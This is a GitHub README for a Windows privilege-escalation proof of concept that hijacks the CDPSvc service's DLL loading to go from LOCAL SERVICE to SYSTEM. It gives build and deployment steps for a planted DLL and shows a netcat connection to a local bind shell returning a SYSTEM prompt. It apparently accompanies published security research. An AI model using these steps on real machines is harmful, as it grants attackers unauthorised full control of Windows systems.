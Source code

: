 # CDPSvc DLL Hijacking - From LOCAL SERVICE to SYSTEM

<p align="center">
  <img src="/demo.gif">
</p>


## Description 

For more information please visit this [blog post](https://itm4n.github.io/cdpsvc-dll-hijacking/).


## How to compile 

1) Open Visual Studio and create a new __C++ Console Application__ project.  
2) Delete the existing source file and add __cdpsgshims.cpp__ to the project.  
3) Select __Release__ and __x86/x64__ depending on the architecture of the target machine.  
4) Open __Project__ > __Properties__.  
    - __General__ > __Configuration Type__ -> `Dynamic Library (.dll)`  
    - __C/C++__ > __Code Generation__ > __Runtime Library__ -> `Multithread (/MT)`  
5) __Build solution__  


## Usage 

1) __Rename__ the output file as __cdpsgshims.dll__.  
2) Copy it into a __PATH directory__ where you have __Write access__.  
3) __Reboot__ (or stop/start CDPSvc as an administrator).  
4) Use a tool such as `nc.exe` to __connect to the local port 1337__.  

```
C:\TOOLS\>nc64.exe 127.0.0.1 1337
[*] Searching for a SYSTEM token...
[+] SYSTEM token found.
[+] CreateProcessAsUser() OK
Microsoft Windows [version 10.0.18362.476]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt auhtority\system
```

/!\ At this point, I'd suggest to stop the service, delete the DLL and restart the service. Otherwise you won't be able to delete the file. Your shell won't die because it runs in a separate process. 

